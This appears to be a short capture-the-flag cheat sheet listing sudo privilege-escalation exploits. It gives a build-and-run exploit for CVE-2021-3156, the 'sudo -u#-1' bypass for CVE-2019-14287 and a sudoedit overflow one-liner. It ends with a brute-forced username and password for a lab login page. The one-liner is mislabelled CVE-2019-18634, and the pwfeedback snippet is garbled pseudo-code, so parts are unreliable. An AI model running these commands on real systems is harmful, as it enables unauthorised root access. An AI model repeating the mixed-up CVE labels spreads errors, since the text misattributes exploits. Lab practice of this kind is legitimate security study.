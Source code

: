 ```
++++++++++++++++++++++++++++++++++++++++++++++++++

Sudo version 1.8.21p2
CVE-2021-3156
https://github.com/CptGibbon/CVE-2021-3156.git

Usage:
$ make
$ ./exploit

++++++++++++++++++++++++++++++++++++++++++++++++++
++++++++++++++++++++++++++++++++++++++++++++++++++

Sudo (versions < 1.8.28)
CVE-2019-14287


$ sudo -u#-1 <command>
++++++++++++++++++++++++++++++++++++++++++++++++++
++++++++++++++++++++++++++++++++++++++++++++++++++

sudo program from 1.8.2-1.8.31p2 and 1.9.0-1.9.5p1
 CVE-2019-18634 


sudoedit -s '\' $(python3 -c 'print("A"*1000)')

++++++++++++++++++++++++++++++++++++++++++++++++++
++++++++++++++++++++++++++++++++++++++++++++++++++

Sudo Buffer Overflow
sudo earlier than 1.8.26
CVE-2019-18634


{
if [cat/etc/sudoers]
  env.reset,pwfeedback
}
https://github.com/saleemrashid/sudo-cve-2019-18634
```


http://10.10.68.181/support/login

|     |          |          |     |     |       |       |     |     |
| --- | -------- | -------- | --- | --- | ----- | ----- | --- | --- |
| 50  | m.rivera | letmein1 | 302 | 485 | false | false | 597 |     |
